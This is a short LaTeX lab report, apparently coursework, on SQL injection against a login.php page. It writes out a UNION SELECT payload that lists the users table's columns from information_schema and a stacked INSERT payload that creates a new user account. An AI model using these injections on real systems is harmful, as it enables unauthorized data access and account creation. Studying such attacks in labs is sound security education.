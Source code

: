 \documentclass[12pt]{report}
\begin{document}
	\paragraph*{2.} {\bf Briefly describe the actions required to create a new user.}
	Since we know the table to inject, we have to know the column names of this table by injecting following query:
	{\sf login.php?username=\&password=' UNION SELECT 1,2,group\_concat(column\_name),4,5,6,7,8 from information\_schema.columns where table\_name='users' -{}-+}
	It will return all the columns of users table:
	\begin{figure}[H]
		\includegraphics[width=0.75\textheight,height=0.3\textheight]{images/userscolumn.jpg}
		\caption{Name of columns of users table.}
	\end{figure}
	Now we have all the information to create our own user. It can be done by injecting {\sf INSERT INTO} clause.\\
	{\sf login.php?username=\&password='; INSERT INTO users (id,password,username,name,firstname) VALUES ('3','always','snape','snape','severus') -{}-+}\\
	Here is the screen shot of users table of the database.
	\begin{figure}[H]
		\includegraphics[width=0.75\textheight,height=0.3\textheight]{images/userinserted.jpg}
		\caption{A new user was inserted.}
	\end{figure}
\end{document}
